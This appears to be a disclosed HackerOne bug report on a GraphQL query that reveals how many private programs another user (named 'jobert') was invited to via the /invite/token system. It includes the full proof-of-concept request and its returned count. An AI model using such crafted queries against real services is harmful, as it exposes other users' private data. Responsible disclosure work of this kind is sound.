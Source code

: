 # The request tells the number of private programs, the new system of authorization /invite/token

## Report Details
- **Report ID**: 310946
- **URL**: https://hackerone.com/reports/310946
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-01-31T13:41:42.467Z
- **Disclosed**: 2018-02-14T09:25:56.318Z

## Reporter
- **Username**: haxta4ok00
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
**Summary:**
Hi team.
The old version of the invite program, looks simple. A link to the program in which you need to log in.Now this looks through token.So my PoC I think you can count work since you have changed the system to a new, token

**Description:**

### Steps To Reproduce

1. https://hackerone.com/graphql

POST:
`{"query":"query Directory_invitations_page($state_0:[InvitationStateEnum]!,$state_3:[InvitationStateEnum]!,$first_1:Int!,$size_2:ProfilePictureSizes!) {\\n`***user(username:\\\"jobert\\\")***` {\\n    id,\\n    ...F5\\n  }\\n}\\nfragment F0 on User {\\n  _soft_launch_invitations259p9N:soft_launch_invitations(state:$state_0,first:$first_1) {\\n    total_count\\n  },\\n  id\\n}\\nfragment F1 on InvitationsSoftLaunch {\\n  id,\\n  team {\\n    handle,\\n    url,\\n    name,\\n    about,\\n    bug_count,\\n    base_bounty,\\n    offers_bounties,\\n    currency,\\n    _profile_picture2rz4nb:profile_picture(size:$size_2),\\n    id\\n  },\\n  expires_at,\\n  state,\\n  token\\n}\\nfragment F2 on Node {\\n  id,\\n  __typename\\n}\\nfragment F3 on InvitationInterface {\\n  __typename,\\n  ...F1,\\n  ...F2\\n}\\nfragment F4 on User {\\n  _soft_launch_invitations1WD3Qk:soft_launch_invitations(state:$state_0,first:$first_1) {\\n    total_count,\\n    edges {\\n      node {\\n        id,\\n        ...F3\\n      },\\n      cursor\\n    },\\n    pageInfo {\\n      hasNextPage,\\n      hasPreviousPage\\n    }\\n  },\\n  _soft_launch_invitations2FRMOR:soft_launch_invitations(state:$state_3,first:$first_1) {\\n    total_count\\n  },\\n  id\\n}\\nfragment F5 on User {\\n  id,\\n  ...F0,\\n  ...F4\\n}","variables":{"state_0":["pending_terms","open","accepted"],"state_3":["pending_terms","open","accepted","cancelled","rejected"],"first_1":100,"size_2":"large"}}`


I take username:\\\"jobert\\\" , hi @jobert

`Result "total_count":27`

You have 27 private programs in which you have added through the new system - using /invite/token

Yes , most likely you have more number of private programs, but those that are missing, you most likely added by the old system.

Sorry i bad speak english
I hope you understand me
Thank you,haxta4ok00

F259145

## Impact

total count Private programs in order to add the system /invite/token

## Attachments
- asdqwe.png
